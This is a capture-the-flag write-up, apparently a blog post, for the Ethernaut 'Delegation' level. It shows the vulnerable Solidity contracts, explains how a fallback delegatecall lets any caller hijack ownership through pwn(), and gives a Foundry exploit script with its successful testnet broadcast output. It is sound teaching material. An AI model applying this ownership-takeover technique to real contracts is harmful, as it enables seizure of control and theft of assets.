 ```yaml
---
layout: post
title: "[Ethernaut] Delegation"
tags: blockchain ethernaut foundry delegatecall
---
```


# Analysis

---
The goal is

1. claim ownership

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

The `fallback()` function in the Delegation contract performs `delegatecall()` to the Delegate contract.

The Delegation contract's state can be changed by caliing the `pwn()` function in Delegate contract via `delegatecall()`.

`msg.sender` in the Delegate contract will be EOA because the call is made by using `delegatecall()`.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Delegation.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract DelegationSol is Script {
    Delegation public delegation_ = Delegation(0x604BD638031054664E87618f46871c5423E9cbFF);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        address(delegation_).call(abi.encodeWithSignature("pwn()"));
        console.log("owner: ", delegation_.owner());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/DelegationSol.sol --broadcast
[⠊] Compiling...
[⠰] Compiling 1 files with Solc 0.8.29
[⠔] Solc 0.8.29 finished in 280.67ms
Compiler run successful with warnings:
Warning (9302): Return value of low-level calls not used.
  --> script/DelegationSol.sol:14:9:
   |
14 |         address(delegation_).call(abi.encodeWithSignature("pwn()"));
   |         ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Script ran successfully.

== Logs ==
  owner:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.001000019 gwei

Estimated total gas used for script: 43100

Estimated amount required: 0.0000000431008189 ETH

==========================

##### holesky
✅  [Success] Hash: 0xd749896a13ac87778efd535f37a37c59d6b88fedeb517b326aa83c0af160e8fd
Block: 3677303
Paid: 0.000000031204249632 ETH (31204 gas * 0.001000008 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000031204249632 ETH (31204 gas * avg 0.001000008 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-18-Delegation/complete.png)